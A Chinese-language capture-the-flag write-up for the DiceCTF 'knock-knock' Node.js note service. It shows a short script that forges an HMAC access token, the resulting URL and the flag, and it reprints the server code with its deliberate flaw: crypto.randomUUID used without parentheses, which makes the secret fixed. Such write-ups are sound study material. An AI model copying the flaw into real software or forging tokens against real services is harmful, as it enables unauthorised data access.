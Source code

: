 ﻿---
title: DiceCTF - knock-knock
categories: 赛题wp
---

﻿一道nodejs题目，给了源码和dockerfile，从dockerfile知道nodejs版本为17.4.0，一个pastebin

![](https://img-blog.csdnimg.cn/84f1b6cc71694c899d823a1787822232.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBARmYuY2hlbmc=,size_16,color_FFFFFF,t_70,g_se,x_16#pic_center)

<!--more-->
![](https://img-blog.csdnimg.cn/8f2e8c4290df498f9899fda13cec46aa.png#pic_center)

返回可以进行xss，但是不会返回cookie，所以，审计一下代码

代码逻辑很简单flag在**notes[0]**位置上，但是由于每个人返回的token不相同，所以想要伪造token切换到**id=0**看似不可能 

可以发现token生成的主要逻辑是依靠两个部分

```
this.secret = `secret-${crypto.randomUUID}`;
和
return crypto.createHmac('sha256',this.secret).update(id.toString()).digest('hex');
```

当我想要使用我的nodejs14尝试生成一下secret时发现了异常

![](https://img-blog.csdnimg.cn/567fc350d9994e1ea9e83ab96a47ab9c.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBARmYuY2hlbmc=,size_18,color_FFFFFF,t_70,g_se,x_16#pic_center)

于是就去找到了17版本的在线网站，发现了漏洞，[nodejs-online](https://www.jdoodle.com/execute-nodejs-online/)

![](https://img-blog.csdnimg.cn/e626d5a205864d218527406a216fe4bf.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBARmYuY2hlbmc=,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)

**randomUUID缺少()导致this.secret为固定，这也就给了伪造token的机会**

所以就可以进行伪造token

```
const crypto = require('crypto');
let secret = `secret-${crypto.randomUUID}`;
let id = 0;
console.log(crypto.createHmac('sha256', secret).update(id.toString()).digest('hex'));
```

另一种手动的方法，将错误信息base64编码

```
console.log(btoa(`secret-${crypto.randomUUID}`));
```
生成
```
c2VjcmV0LWZ1bmN0aW9uIHJhbmRvbVVVSUQob3B0aW9ucykgewogIGlmIChvcHRpb25zICE9PSB1bmRlZmluZWQpCiAgICB2YWxpZGF0ZU9iamVjdChvcHRpb25zLCAnb3B0aW9ucycpOwogIGNvbnN0IHsKICAgIGRpc2FibGVFbnRyb3B5Q2FjaGUgPSBmYWxzZSwKICB9ID0gb3B0aW9ucyB8fCB7fTsKCiAgdmFsaWRhdGVCb29sZWFuKGRpc2FibGVFbnRyb3B5Q2FjaGUsICdvcHRpb25zLmRpc2FibGVFbnRyb3B5Q2FjaGUnKTsKCiAgcmV0dXJuIGRpc2FibGVFbnRyb3B5Q2FjaGUgPyBnZXRVbmJ1ZmZlcmVkVVVJRCgpIDogZ2V0QnVmZmVyZWRVVUlEKCk7Cn0=
```
利用 hmac 伪造token

![](https://img-blog.csdnimg.cn/f8fe493fed674edca519586bfdfa0118.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBARmYuY2hlbmc=,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)

访问
```
url/note?id=0&token=7bd881fe5b4dcc6cdafc3e86b4a70e07cfd12b821e09a81b976d451282f6e264
```
FLAG：dice{1_d00r_y0u_d00r_w3_a11_d00r_f0r_1_d00r}

代码

```js
const crypto = require('crypto');

class Database {
  constructor() {
    this.notes = [];
    this.secret = `secret-${crypto.randomUUID}`;
  }

  createNote({ data }) {
    const id = this.notes.length;
    this.notes.push(data);
    return {
      id,
      token: this.generateToken(id),
    };
  }

  getNote({ id, token }) {
    if (token !== this.generateToken(id)) return { error: 'invalid token' };
    if (id >= this.notes.length) return { error: 'note not found' };
    return { data: this.notes[id] };
  }

  generateToken(id) {
    return crypto
      .createHmac('sha256', this.secret)
      .update(id.toString())
      .digest('hex');
  }
}

const db = new Database();
db.createNote({ data: process.env.FLAG });

const express = require('express');
const app = express();

app.use(express.urlencoded({ extended: false }));
app.use(express.static('public'));

app.post('/create', (req, res) => {
  const data = req.body.data ?? 'no data provided.';
  const { id, token } = db.createNote({ data: data.toString() });
  res.redirect(`/note?id=${id}&token=${token}`);
});

app.get('/note', (req, res) => {
  const { id, token } = req.query;
  const note = db.getNote({
    id: parseInt(id ?? '-1'),
    token: (token ?? '').toString(),
  });
  if (note.error) {
    res.send(note.error);
  } else {
    res.send(note.data);
  }
});

app.listen(3000, () => {
  console.log('listening on port 3000');
});
```

